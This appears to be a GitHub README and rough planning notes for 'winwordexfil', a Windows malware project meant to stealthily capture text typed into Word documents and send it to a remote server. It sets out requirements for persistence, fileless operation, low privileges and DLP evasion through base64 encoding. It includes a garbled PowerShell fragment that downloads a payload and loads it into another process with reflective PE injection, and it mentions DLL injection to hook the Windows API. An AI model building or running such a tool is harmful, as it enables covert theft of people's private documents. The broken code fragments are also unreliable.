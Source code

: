 # winwordexfil
A kind of malware to exfiltrate Word documents text written

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.
    
 


cuando dropeas: haces persistencia, lanzas watcher

haces persistencia (a nivel usuario) que es una entrada en el registro para que se ejecute al inicio de sesión 

pendiente -> watcher para ver cuando se abre el world

exfiltrar el contenido de los documentos abiertos --> basic dlp evasion encoding in base64. more advanced techniques like adding cypher.

https://community.spiceworks.com/how_to/163884-getting-data-from-a-word-document-using-powershell

https://medium.com/@riffsandhacks/data-exfiltration-bypassing-a-misconfigured-dlp-to-exfiltrate-sensitive-data-1236989c76c1

https://stackoverflow.com/questions/52074362/how-to-connect-powershell-script-to-an-already-opened-document




http server
https://blog.anvileight.com/posts/simple-python-http-server/

pip install twisted
twistd -no web --path=.





in order to create a better malware or wanted to use other techniques reflectivePEInjection can be used



IEX((New-Object System).DowloadString powershell infoKe-ReflectivePEInjection.ps1)
$b = downloadstring(executable.bin)
$c system.convert::frombase64string($b)
Invoke-ReflectivePEInjection -PEBytes $c   /indicanto el proceso al que quieres ir



process dll injection to hook windows api call 